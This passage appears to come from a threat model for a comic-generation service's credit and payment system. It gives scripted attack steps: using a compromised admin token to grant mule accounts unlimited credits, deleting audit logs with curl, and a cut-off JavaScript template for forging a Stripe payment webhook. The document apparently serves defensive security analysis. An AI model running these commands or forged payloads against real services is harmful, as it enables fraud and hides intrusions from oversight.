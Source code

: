 #### Attack Steps
```bash
# Step 1: Compromise admin account (via MFA bypass, token theft, etc.)
ADMIN_TOKEN="[compromised_admin_token]"

# Step 2: Create multiple "mule" accounts
for i in {1..100}; do
  EMAIL="mule$i@tempmail.com"
  # Register accounts via legitimate API
done

# Step 3: Grant massive credits to mule accounts
for USER_ID in $(cat mule_accounts.txt); do
  curl -X POST "https://api.example.com/admin/users/$USER_ID/credits" \
    -H "Authorization: Bearer $ADMIN_TOKEN" \
    -H "Content-Type: application/json" \
    -d '{"panels":999999}'
done

# Step 4: Use mule accounts to generate and sell comics
# Or drain credits through AI API abuse

# Step 5: Cover tracks by deleting audit logs
curl -X DELETE "https://api.example.com/admin/audit-logs?action=grant_user_credits" \
  -H "Authorization: Bearer $ADMIN_TOKEN"
```

#### Impact Assessment
- Unlimited free credits distributed
- Financial loss from unpaid AI usage
- Difficult to detect if audit logs compromised
- Can continue until admin access revoked

---

## 6. API Abuse Attacks

### Attack 6.1: Stripe Webhook Forgery
**Attack Vector:** Network  
**Complexity:** Medium  
**Impact:** Critical  
**MITRE ATT&CK:** T1190

#### Description
If webhook signature verification is weak or bypassable, attacker can forge payment success events.

#### Attack Steps
```javascript
// Step 1: Capture legitimate webhook format
const webhookTemplate = {
  id: "evt_fake123",
  type: "checkout.session.completed",
  data: {
    object: {
      id: "cs_fake456",
      payment_status: "paid",
      customer_details: { email: "attacker@example.com" },
      amount_total: 0,  // Claim $0 payment
      metadata: {
        userId: "[attacker_user_id]",
        panels: 999999  // Grant max credits
      }
    }
```